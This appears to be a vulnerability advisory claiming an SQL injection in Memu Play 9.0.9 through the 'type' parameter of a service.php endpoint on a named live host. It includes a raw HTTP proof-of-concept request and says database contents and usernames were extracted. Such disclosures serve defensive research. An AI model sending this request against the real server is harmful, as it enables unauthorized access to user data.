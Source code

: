 # Vulnerability Name - SQL Injection

## Vulnerability Details
- Vulnerability Name: SQL Injection
- Product: Memu Play
- Download Link: [Memu Play Download](https://www.memuplay.com/download-memu-on-pc.html)
- Version: 9.0.9
- Researcher: Pankaj Kumar Thakur (CISO @ Green Tick Nepal Pvt. Ltd.)

## Vulnerability Description
A SQL Injection vulnerability was discovered in Memu Play version 9.0.9. The vulnerability allows an attacker to perform unauthorized database queries by manipulating the `type` parameter in the `/new_market/service.php` endpoint.

## Proof of Concept
The vulnerability can be reproduced by sending a malicious request to the affected endpoint. Below is an example of the raw request:

```
POST /new_market/service.php HTTP/1.1
Host: stat.microvirt.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 321
Content-Type: application/json;charset=UTF-8
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: stat.microvirt.com
X-Forwarded-Proto: https
X-Forwarded-Url: https://stat.microvirt.com/new_market/service.php
Accept-Encoding: gzip

{"action":"postpcmanagementop","appFrom":"","appId":"","appName":"Password Manager","channelId":"cd5e1e15","mac":"38:F3:AB:28:2C:3D","marketVersion":"launcher_6.3.6","module":"install-broadcast","op":"setup","packageAppName":"com.trendmicro.directpass.phone","position":"","type":"*","userName":"-1","version":"9.0.6"}
```

By manipulating the `type` parameter, an attacker can execute arbitrary SQL queries.

## Impact
Successful exploitation of this vulnerability allows an attacker to extract sensitive information from the database, such as usernames, passwords, and other confidential data.

## Recommendation
It is recommended to update Memu Play to the latest version to mitigate this vulnerability. Users should also ensure that their systems are protected by up-to-date antivirus software and follow secure coding practices to avoid potential injection attacks.

## Screenshots
Screenshot extracting the database: [Download Here](https://mega.nz/file/1TF2ADJZ#jANl4t6U0pnmaSo7FNbvRGJg3iGe4n4LX52-uHZWQ_s)

Screenshot extracting the current username: [Download Here](https://mega.nz/file/1TF2ADJZ#jANl4t6U0pnmaSo7FNbvRGJg3iGe4n4LX52-uHZWQ_s)

If you have any further questions or need assistance, please let me know!
